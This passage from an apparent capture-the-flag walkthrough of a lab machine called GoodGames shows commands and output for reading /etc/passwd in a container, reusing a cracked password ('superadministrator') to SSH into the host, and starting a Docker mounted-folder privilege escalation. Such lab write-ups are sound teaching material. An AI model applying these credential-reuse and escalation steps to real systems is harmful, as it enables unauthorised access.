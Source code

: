 It's weird that user `augustus` have a home directory, but can't login with a shell

```bash
root@3a453ab39d3d:/backend# cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
```

Try password reuse for ssh to host machine with `augustus`:`superadministrator`

```bash
root@3a453ab39d3d:/backend# ssh 172.19.0.1
root@172.19.0.1's password:

root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
augustus@172.19.0.1's password:
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ id
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)
```


## Docker Privesc via mounted folder

Check the arguments docker is using

```bash
augustus@GoodGames:~$ ps auxf|grep docker
root       686  0.0  2.0 1457424 83596 ?       Ssl  07:41   0:01 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root      1097  0.0  0.2 1222636 9624 ?        Sl   07:41   0:00  \_ /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085
augustus  6855  0.0  0.0   6116   648 pts/0    S+   08:56   0:00              \_ grep docker
```

Home directory looks the same as in docker container

```bash
augustus@GoodGames:~$ ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Nov  3  2021 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus   33 Sep 22 07:42 user.txt
```

Check by creating a file
